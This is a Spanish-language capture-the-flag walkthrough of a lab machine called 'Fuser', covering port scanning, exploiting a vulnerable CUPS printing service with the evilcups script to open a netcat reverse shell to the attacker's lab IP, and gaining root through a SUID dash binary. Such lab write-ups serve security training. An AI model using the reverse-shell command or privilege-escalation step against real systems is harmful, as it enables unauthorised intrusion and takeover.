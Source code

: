 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Fuser

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.129
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.129 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH,** el **puerto 631** perteneciente al **servicio IPP** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,631 -v 192.168.1.129
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80. No contiene nada relevante.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Revisamos el puerto 631. Descubrimos que es un **CUPS** y su versión es vulnerable en la que podemos hacer una **Reverse Shell**.

{% @github-files/github-code-block url="https://github.com/IppSec/evil-cups/blob/main/evilcups.py" %}

Ejecutamos y nos ponemos en escucha.

```bash
nc -nlvp 443
python3 evilcups.py 192.168.1.56 192.168.1.129 "nc 192.168.1.56 443 -e /bin/sh"
```

Buscamos directorios.

```bash
gobuster dir -u http://192.168.1.129:631 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

Vemos que hay un directorio llamado **/printers** por lo que ahí se verá las impresoras.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Obtenermos ya la shell.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.&#x20;

Tenemos permisos **SUID** sobre el binario **dash**.

{% embed url="https://gtfobins.github.io/gtfobins/dash/#suid" %}

```bash
/usr/bin/dash -p
```

Ya somos **root**.
